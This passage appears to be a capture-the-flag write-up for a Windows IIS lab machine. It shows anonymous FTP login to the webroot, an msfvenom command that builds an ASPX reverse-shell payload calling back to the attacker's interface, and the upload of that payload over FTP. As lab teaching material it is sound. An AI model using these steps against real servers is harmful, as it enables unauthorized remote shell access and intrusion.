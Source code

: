 Okay so the website is a default IIS page, in other words, its useless. Let's look elsewhere. Let's revisit the FTP service that the machine was running.

`ftp 10.10.10.5`
```
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49238|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```
Judging by the files in here, it looks like this is the webroot. Let's see what happens when we visit one of these pages. For starters, I tried the welcome.png file.



![](https://i.imgur.com/TKwqutn.png)
    


## Foothold
---
Look at that, the files within the webroot can be visited on the site just by viewing as if it was a directory. Since we now now that this is the webroot and that this is running asp.NET, an aspx webshell may potentially get us a shell if we visit the file like we did with the image.
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx`
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2742 bytes
```

This command crafts a reverse shell payload using msfvenom.

`ftp 10.10.10.5`
```
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49241|)
125 Data connection already open; Transfer starting.
100% |*************************|  2742       45.08 MiB/s    00:00 ETA
226 Transfer complete.
2742 bytes sent in 00:00 (35.46 KiB/s)
ftp> exit
221 Goodbye.
```